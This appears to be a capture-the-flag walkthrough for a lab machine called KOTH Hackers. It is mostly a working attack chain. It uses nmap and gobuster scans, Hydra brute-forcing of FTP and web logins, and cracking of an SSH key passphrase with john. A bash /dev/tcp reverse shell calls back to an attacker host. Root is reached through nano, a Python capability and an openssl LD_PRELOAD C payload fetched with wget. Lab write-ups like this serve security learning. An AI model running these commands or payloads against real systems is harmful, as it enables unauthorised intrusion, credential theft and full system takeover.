

# KOTH HACKERS<br />

-------------
## IP: `10.10.228.111`<br />

----------------------
### Open Ports Via Nmap -<br />

`nmap -sC -sV 10.10.228.1115`

```
21
22
80
9999
```


----------------------
#### Subdirectories Via Gobuster -<br />

```
/news
/contact
/img
/staff
/backdoor
```


----------------------
##### Login via ftp `anonymously` - <br />

> We'll get a note, which will give us usernames to brute-force (:


> When we cat that note, we get-<br/>


------------------------
##### Gcrawford Credentials Via Hydra -<br/>

```
hydra -l gcrawford -P /usr/share/wordlists/rockyou.txt 10.10.228.111 ftp
```


username: gcrawford<br />
password: PAOLA<br />

> Login via ftp using these creds


`We got id_rsa of gcrawford user from cd /.ssh/id_rsa`

> Since it's a protected private key we need to crack the passphrase for `id_rsa` of gcrawford using JohnTheRipper<br />

`ssh2john id_rsa > forjohn`

`john forjohn --wordlist=/usr/share/wordlists/rockyou.txt`

> We Got The Pass For Private Key


```
id_rsa:25192519 
```

`login via gcrawford using id_rsa`

```
ssh -i id_rsa gcrawford@10.10.228.111
```

##### privilege escalation of `gcrawford` user cuz of sudo ability over `nano`<br/>

`sudo -l`

We can see nano's [Gtfo-Bins](https://gtfobins.github.io/gtfobins/nano/)

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

------------------------
##### Rcampbell Credentials Via Hydra -<br />

```
hydra -l rcampbell -P /usr/share/wordlists/rockyou.txt 10.10.228.111 ftp
``` 


username: rcampbell<br />
password: molly<br />

###### Login via ftp using rcampbell credentials -<br/>

`ftp 10.10.228.111`


##### Login via ssh with rcampbell with the same password of this user for ftp and search for `capabilities`<br />

```
getcap -r / 2>/dev/null
```


> Now to get root, we can do -<br/>

```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```


##### Crack the password for [backdoor](http://10.10.228.111/backdoor)<br />


```
hydra -l plague -P /usr/share/wordlists/rockyou.txt 10.10.228.111 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect" -IV
```


username: plague<br />
password: twentyone<br />

> start a net-cat listener on your machine, and we can get a rev-shell using -<br/>

`nc -lnvp <port>`<br/>

```
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```


 


##### You can get a rev shell with user `production` logged in and can achieve privilage escalation using this c code -<br />

First, let's try to check for `sudo abilities` of user production by running command:<br />

`sudo -l`<br />


We see `openssl` in sudo list, we can abuse it to get root let's check it's [Gtfo-Bins For Library Load Using Openssl](https://gtfobins.github.io/gtfobins/openssl/#library-load)

Check out this blog for more on it [ld_preload-privesc](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)<br />

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`<br/>


> start a python server and transfer the shell.so to machine<br/>

`python3 -m http.server 80`<br/>

`wget <ip>/shell.so`<br/>

`chmod +x shell.so`<br/>

```
sudo openssl req -engine ./shell.so
```
